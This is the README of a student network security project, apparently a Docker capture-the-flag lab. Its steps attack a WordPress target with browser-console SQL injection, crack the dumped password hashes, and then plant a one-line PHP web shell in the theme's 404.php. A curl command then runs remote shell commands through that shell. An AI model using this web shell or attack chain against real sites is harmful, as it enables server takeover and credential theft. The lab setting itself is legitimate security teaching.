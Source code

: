 # Progetto Network Security 2023

Progetto per l'esame di Network Security di Dotani, Ferrara, Forino, Galateo

## Usage

1. Connect to the Kali shell using the dsp.
2. Enable VNC by running the script at `/home/vnc.sh`.
3. Connect to the GUI using a VNC viewer.
4. Use Kali's browser to browse to the target at IP address `193.20.1.4`.
5. Use the unknown mode.
6. Answer "Yes" to the poll.
7. Open the script at `/home/sql_inj_script.js` with a text editor.
8. Copy/paste the first part of the script into the browser's console.
9. After the page reloads, you will see an error in the console.
10. Copy/paste the second part of the script into the console, and you will get the users list in the console.
11. Repeat with the 3rd and 4th parts of the script to get the hashes list in the browser's console.
12. Copy the hash from the console and paste it into the `hash.txt` file in the `/home` directory.
13. Open the terminal and run the following commands:
    ```
    cd /home
    ./discover_psw.sh
    ```
14. You will find the matched `hash:pwd` in the `cracked.txt` file.
15. Log in to the following URL: `http://193.20.1.4/wp-login.php`.
16. Open the theme editor and edit the page `404.php` of the `twentytwenty` theme.
17. Overwrite all the code with the following:
    ```
    <?php 
    system($_GET['cmd']);
    ```
18. Call the following URL for remote code execution (you can run any shell command by passing it after the `cmd` parameter in the URL):
    ```
    curl -X GET "http://193.20.1.4/wp-content/themes/<themename>/404.php?cmd=cat%20flag.txt"
    ```

## Installation

1. Install Docker
2. Clone the repository.
3. Run the following 
```
docker compose up
```

## License

This project is licensed under the MIT License - see the LICENSE file for details.
